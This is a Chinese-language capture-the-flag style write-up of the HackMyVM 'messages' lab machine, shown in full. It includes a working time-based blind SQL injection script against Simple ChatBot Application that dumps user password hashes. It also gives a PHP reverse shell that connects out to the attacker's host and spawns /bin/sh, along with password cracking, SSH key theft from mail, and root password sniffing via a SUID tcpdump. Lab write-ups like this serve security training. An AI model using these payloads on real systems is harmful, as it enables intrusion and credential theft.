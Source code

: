 ```yaml
---
title: hmv-messages
copyright: true
date: 2022-02-16 04:04:18
tags: 靶机渗透
---
```

难度适中但综合性很强的一个靶机  
<!--more-->
![1.png](https://github.com/lockcy/penetration-kb/blob/master/pic/hackmyvm%E9%9D%B6%E6%9C%BAmessages/1.png?raw=true)  
1.上来先三板斧：探测/端口/扫目录  
```
fping -a -g 10.10.10.0/24 -q > ip.txt
```
![2.png](https://github.com/lockcy/penetration-kb/blob/master/pic/hackmyvm%E9%9D%B6%E6%9C%BAmessages/2.png?raw=true)  
```
nmap -sVC -p1-65535 10.10.10.157 > port.txt
```
![3.png](https://github.com/lockcy/penetration-kb/blob/master/pic/hackmyvm%E9%9D%B6%E6%9C%BAmessages/3.png?raw=true)  
```
python3 dirsearch.py -u https://10.10.10.157 -e php
```
![4.png](https://github.com/lockcy/penetration-kb/blob/master/pic/hackmyvm%E9%9D%B6%E6%9C%BAmessages/4.png?raw=true)  
2.查看页面，源码审计  
web页面是一个聊天机器人服务，简单测下有个xss，但目测没法利用。  
![5.png](https://github.com/lockcy/penetration-kb/blob/master/pic/hackmyvm%E9%9D%B6%E6%9C%BAmessages/5.png?raw=true)  
在exploit-db上搜索Simple ChatBot Application,有三个漏洞：  
	1. sql盲注，经过测试发现可以使用 (√)  
	2. RCE需要登入后台上传文件触发  (?)  
	3. xss直接忽略   (x)  
![6.png](https://github.com/lockcy/penetration-kb/blob/master/pic/hackmyvm%E9%9D%B6%E6%9C%BAmessages/6.png?raw=true)  
按照漏洞说明抓下请求头，放到sqlmap里sqlmap -r msg.txt跑下，只跑出information_schema一个数据库，information_schema里也没啥东西，检查了几遍也不知道问题出在哪，这里就自己撸个脚本吧。  
![7.png](https://github.com/lockcy/penetration-kb/blob/master/pic/hackmyvm%E9%9D%B6%E6%9C%BAmessages/7.png?raw=true)  
```
#!/usr/bin/env python
# -*- coding: utf-8 -*-
# @Time    : 2022/2/16 01:36
# @Author  : lockcy
# @File    : blindinjection.py

import requests
import time

url = "https://10.10.10.157/chatbot/classes/Master.php?f=get_response"
requests.packages.urllib3.disable_warnings()
result = ""
for a in range(1, 100):
    start = 32
    end = 128
    while start < end:
        time1 = time.time()
        mid = (start + end) //2
        header = {
            "Host": "10.10.10.157",
            "Content-Type": "application/x-www-form-urlencoded",
        }
        # database chatbot
        # data = "message=' union select 1,(if(ascii(substr(database(),{0},1))<{1},sleep(2),1))-- -".format(a, mid)
        # table unanswered,users,questions,responses,system_info,frequent_asks
        # data = "message=' union select 1,(if(ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema='chatbot'),{0},1))<{1},sleep(2),1))-- -".format(a, mid)
        # id,firstname,lastname,username,password,avatar,last_login,date_added,date_updated
        # data = "message=' union select 1,(if(ascii(substr((select group_concat(column_name) from information_schema.columns where table_name='users'),{0},1))<{1},sleep(2),1))-- -".format(a, mid)
        # admin  0192023a7bbd73250516f069df18b500
        data = "message=' union select 1,(if(ascii(substr((select group_concat(username, password) from users),{0},1))<{1},sleep(2),1))-- -".format(a, mid)
        html = requests.post(url=url, data=data, headers=header, verify=False)
        time2 = time.time()
        if time2 - time1 > 2:
            end = mid
        else:
            start = mid + 1
    result = result + chr(start-1)
    print(result)
```
后来发现在exploit-db提供的源码网站里可以下到源码https://www.sourcecodester.com/php/14788/simple-chatbot-application-using-php-source-code.html，
源码里也有默认用户名密码TAT（高情商：盲注下确保密码正确，低情商：白忙活）  
![8.png](https://github.com/lockcy/penetration-kb/blob/master/pic/hackmyvm%E9%9D%B6%E6%9C%BAmessages/8.png?raw=true)  
somd5跑下加密后的密码，获得simple chatbot后台登录用户名和密码admin admin123  
![9.png](https://github.com/lockcy/penetration-kb/blob/master/pic/hackmyvm%E9%9D%B6%E6%9C%BAmessages/9.png?raw=true)  
登入发现可以利用之前exploit-db搜到的RCE，这里三个地方都有上传点，我选了SystemLogo（后面两个上传点总是遇到文件消失的问题），从代码逻辑看，没有任何过滤，只是在文件名前加了格式化的时间戳。  
![10.png](https://github.com/lockcy/penetration-kb/blob/master/pic/hackmyvm%E9%9D%B6%E6%9C%BAmessages/10.png?raw=true)  
上传成功，可以执行些简单的php命令，但无法使用system，推测disable_function 禁用了，但exec没禁用  
![11.png](https://github.com/lockcy/penetration-kb/blob/master/pic/hackmyvm%E9%9D%B6%E6%9C%BAmessages/11.png?raw=true)  
直接上传反弹shell 执行， kali  nc -lvvp 8888监听  
revshell.php  
```
<?php
    $sock = fsockopen("10.10.10.128", 8888);
    $descriptorspec = array(
            0 => $sock,
            1 => $sock,
            2 => $sock
    );
    $process = proc_open('/bin/sh', $descriptorspec, $pipes);
    proc_close($process);
```
**getshell**
![12.png](https://github.com/lockcy/penetration-kb/blob/master/pic/hackmyvm%E9%9D%B6%E6%9C%BAmessages/12.png?raw=true)  
userflag在/home/ruby/userflag.txt中，但www-data没有权限读，在同目录下的notes文件中发现提示：  
![13.png](https://github.com/lockcy/penetration-kb/blob/master/pic/hackmyvm%E9%9D%B6%E6%9C%BAmessages/13.png?raw=true)  
利用配置文件中的数据库用户名和密码登入数据库，在vmail.mailbox表中发现了相关内容，ruby正好是我们想越权的账户，且notes中似乎也暗示ruby存在弱密码。  
![14.png](https://github.com/lockcy/penetration-kb/blob/master/pic/hackmyvm%E9%9D%B6%E6%9C%BAmessages/14.png?raw=true)  
利用hashcat爆破下弱口令，获得ruby的邮箱账号和密码ruby@messages.hmv   Ruby.r123  
![15.png](https://github.com/lockcy/penetration-kb/blob/master/pic/hackmyvm%E9%9D%B6%E6%9C%BAmessages/15.png?raw=true)  
登入https://10.10.10.157/mail/邮件应用发现ruby用户的ssh私钥  
![16.png](https://github.com/lockcy/penetration-kb/blob/master/pic/hackmyvm%E9%9D%B6%E6%9C%BAmessages/16.png?raw=true)  
保存至id_rsa，登入靶机，获取user权限  
![17.png](https://github.com/lockcy/penetration-kb/blob/master/pic/hackmyvm%E9%9D%B6%E6%9C%BAmessages/17.png?raw=true)  
```
find / -perm -4000 2>/dev/null
```
![18.png](https://github.com/lockcy/penetration-kb/blob/master/pic/hackmyvm%E9%9D%B6%E6%9C%BAmessages/18.png?raw=true)  
发现tcpdump有root权限，想起之前提示的靶机有check mail的功能，利用tcpdump嗅探root用户检查邮件功能的数据包  
```
tcpdump -i lo -G 30 -w data.cap
```
在数据包中发现root用户在使用pop3协议登录时使用的密码，登入靶机，获取root权限  
![19.png](https://github.com/lockcy/penetration-kb/blob/master/pic/hackmyvm%E9%9D%B6%E6%9C%BAmessages/19.png?raw=true)  
